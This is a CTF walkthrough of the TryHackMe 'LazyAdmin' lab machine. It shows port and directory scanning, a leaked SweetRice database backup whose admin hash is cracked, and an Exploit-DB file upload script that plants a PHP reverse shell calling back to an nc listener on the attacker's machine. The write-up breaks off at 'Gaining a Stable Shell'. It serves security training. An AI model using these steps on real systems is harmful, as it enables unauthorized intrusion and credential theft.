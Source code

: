 # THM - LazyAdmin

## IP Address
10.10.131.164

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.131.164
```
2. The name results will result as shown:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-23 08:51 UTC
Nmap scan report for ip-10-10-131-164.eu-west-1.compute.internal (10.10.131.164)
Host is up (0.00078s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DB:6B:30:7D:88 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

3. Port 80/http is open. Navigating to it will lead you to a apache page.
<insert ss1>

4. Explore other potential directories with gobuster.
```bash
#install gobuster if you dont have it already
sudo apt install gobuster

#run gobuster with dirbuster wordlists
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

5. You will see that /content is available.
```bash
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

6. Going to http://10.10.131.164/content brings user to a sweetrice page but do not have much details as well. So we will run gobuster again on 10.10.131.164/content
```bash
gobuster dir -u http://10.10.131.164/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

7. You will realise that /content gives more output
```bash
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

8. Running through the files you will realised there is this file over at /content/inc/lastest.txt shows ```1.5.1```. This may be the SweetRice version number.

9. Search for SweetRice Exploits.
```bash
searchsploit sweetrice
```

It will return a few exploits available under version ```1.5.1```. Main exploits are Arbitrary File Upload and PHP code execution.
```bash
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
SweetRice 0.5.3 - Remote File Inc | exploits/php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulner | exploits/php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosu | exploits/php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' A | exploits/php/webapps/14184.txt
---------------------------------- ----------------------------------------
```

10. Now we need to find a username and password to run the 2 exploits. Looking further into the files at ```/content/inc``` you will come across an interesting SQL document under ```http://10.10.131.164/content/inc/mysql_backup/```. Download the SQL file and read it through:
```bash
cat Downloads/mysql_bakup_20191129023059-1.5.1.sql 
```

You will notice the PHP code along with the hashed password and username:
```bash
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
```

11. Run the hashed password over at [CrackStation](https://crackstation.net/) and you will get the password for user ```manager```.
```manager:Password123```

12. go to ```/content/as``` and login with the username and password to verify. Once logged in, start the website.

13. We are now going to use the 2 exploits found earlier. We can either upload the code in the dashboard > ads or we can use a python script to do the uploading.
- [SweetRice 1.5.1 - Arbitrary File Upload Script](https://www.exploit-db.com/exploits/40716)

14. We will also need to create our reverse shell and create a few ext to see which extension SweetRice will accept. In this CTF, .php5 will work.
- [Php Reverse Shell Code](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

You will need to edit part of the scripts. You will need to get your ip addr and edit the IP and PORT section of the code.
```bash
root@kali:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:40:bb:15:91:a0 brd ff:ff:ff:ff:ff:ff
    inet 10.10.141.19/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3365sec preferred_lft 3365sec
    inet6 fe80::40:bbff:fe15:91a0/64 scope link 
       valid_lft forever preferred_lft forever
```

We will use ```10.10.141.19``` and port ```9001``` (you can choose your own port no.) and edit the following in the PHP script:

```bash
...
$ip = '10.10.141.19';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...
```

15. Now open another terminal and start listing to port ```9001``` before uploading the php script.
```bash
nc -lvnp 9001
```

16. Run the python script exploit and click on the links to gain shell access.
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.131.164/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : reshell.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.131.164/content/attachment/reshell.php5
root@kali:~# 
```

## Gaining a Stable Shell
